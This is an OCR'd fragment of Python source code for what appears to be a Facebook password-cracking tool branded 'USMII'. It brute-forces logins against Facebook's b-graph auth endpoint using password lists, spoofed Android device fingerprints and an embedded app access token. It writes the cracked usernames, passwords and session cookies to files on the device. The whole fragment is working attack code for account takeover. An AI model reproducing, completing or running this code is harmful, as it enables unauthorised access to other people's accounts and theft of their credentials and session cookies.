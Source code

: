                                 'User-Agent':ua,
                                'Accept-Encoding':'gzip, deflate',
                                'Content-Type': 'application/x-www-form-urlencoded',
                                'X-FB-HTTP-Engine': 'Liger'
                                }
                        url = 'https://b-graph.facebook.com/auth/login'
                        twf = 'Login approval'+'s are on. '+'Expect an SMS'+' shortly with '+'a code to use'+' for log in'
                        po = requests.post(url,data=data,headers=headers).json()
                        if 'session_key' in po:
                                try:
                                        uid = po['uid']
                                except:
                                        uid = ids
                                if str(uid) in oks:
                                        break
                                else:
                                        print('\r\r\033[1;32m [LEGEND-USMII-OK] '+str(uid)+' | '+pas+'\033[1;97m')
                                        coki = ";".join(i["name"]+"="+i["value"] for i in po["session_cookies"])
                                        #print("\r\r\033[1;33m Cookie: "+coki)
                                        open('/sdcard/usmii-COKIE.txt','a').write(str(uid)+'|'+pas+ ' | ' +coki+'\n')
                                        open('/sdcard/USMII-rnd-OK.txt','a').write(str(uid)+'|'+pas+'\n')
                                        oks.append(str(uid))
                                        break
                        elif 'www.facebook.com' in po['error']['message']:
                                try:
                                        uid = po['error']['error_data']['uid']
                                except:
                                        uid = ids
                                if uid in oks:pass
                                else:
                                    #    print('\r\r\x1b[1;31m [USMII-CP] '+str(uid)+' | '+pas+'\033[1;97m')
                                        open('/sdcard/USMII-rnd-CP.txt','a').write(str(uid)+'|'+pas+'\n')
                                        cps.append(str(ids))
                                        break
                        else:continue
                loop+=1
        except Exception as e:
                pass
                        
def rndm(ids,passlist):
        global loop
        global oks
        sys.stdout.write('\r\r\033[1;37m [USMII-RUNING] %s|\033[1;37mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
        try:
                for pas in passlist:
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        fbav = f'{random.randint(111,999)}.0.0.{random.randint(11,99)}.{random.randint(111,999)}'
                        fbbv = str(random.randint(111111111,999999999))
                        android_version = device['android_version']
                        model = device['model']
                        build = device['build']
                        fblc = device['fblc']
                        fbcr = sim_id
                        fbmf = device['fbmf']
                        fbbd = device['fbbd']
                        fbdv = device['fbdv']
                        fbsv = device['fbsv']
                        fbca = device['fbca']
                        fbdm = device['fbdm']
                        fbfw = '1'